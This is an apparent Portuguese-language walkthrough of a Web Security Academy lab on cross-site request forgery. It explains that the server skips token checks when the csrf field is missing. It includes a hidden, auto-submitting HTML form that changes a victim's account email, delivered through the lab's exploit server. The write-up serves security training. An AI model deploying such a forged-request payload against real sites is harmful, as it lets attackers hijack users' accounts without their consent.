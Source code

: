 
Através dessa requisição, podemos concluir que o back-end não está verificando se o token `csrf` está presente na requisição, e que ele é verificado apenas quando o token `csrf` é alterado.

com essa informação, podemos criar um script que envie a requisição para o back-end onde o token `csrf` não está presente:

```html	

    <form method="POST" action="https://0ab2009e032ec8b2c0c93b4e0040003e.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.com">
    </form>
    <script>
        document.forms[0].submit();
    </script>

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos um campo de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.com"` com o email que queremos alterar.

Na tag `<script>`, temos um código que faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:

![server](present_server.png)

Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.

![concluido](present_concluido.png)

---